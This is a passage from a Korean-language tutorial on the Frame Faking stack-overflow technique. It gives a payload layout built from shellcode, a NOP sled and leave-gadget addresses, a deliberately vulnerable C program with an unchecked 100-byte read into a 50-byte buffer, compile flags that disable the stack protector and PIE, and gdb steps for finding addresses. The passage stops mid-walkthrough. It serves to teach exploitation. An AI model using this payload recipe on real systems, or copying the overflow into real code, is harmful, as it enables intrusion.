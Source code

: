최종적으로 EIP가 Shellcode를 가리키고 있게 되고, 이를 실행하게 된다.

여기까지가 Frame Faking 공격의 개념이고 정리하자면 payload는 다음과 같다.

```
[shellcode 주소] + [shellcode] + [NOP] + [shellcode - 0x8] + [leave 주소]
```

위 설명을 이해 했다면 payload를 보고 왜 이렇게 입력을 해야 하는지 이해가 갈 것이다.

----

### 0x03  Proof of Concept

실습을 위해 사용된 코드는 다음과 같다.

```c
#include <stdio.h>

void vuln(){
        char buf[50];
        printf("buf[50] address : %p\n",buf);
        read(0,buf,100);
}

void main(){
        vuln();
}
```

다음과 같은 옵션으로 컴파일 한다.

```
$ gcc -fno-stack-protector -z execstack -no-pie -o code code.c
$ gdb -q code
```

우선 buf에 넣을 값의 크기를 구하기 위해 buf, SFP 주소를 알아내고, LEAVE 주소도 알아내야 한다.

vuln+4 와 vuln+60 에서 breakpoint를 걸어준다.

```
>>> b *vuln+4
>>> b *vuln+60
```

i r $rbp 명령어를 입력하면 $rbp에 저장된 값을 볼 수 있다. 0x7fffffffe490은 SFP 값이다. 

```
>>> r
Breakpoint 1, 0x000000000040053b in vuln ()
>>> i r $rbp
rbp            0x7fffffffe490   0x7fffffffe490
>>> 
```

계속 실행하면 buf 주소를 볼 수 있다. 
buf 주소는 0x000007fffffffe450
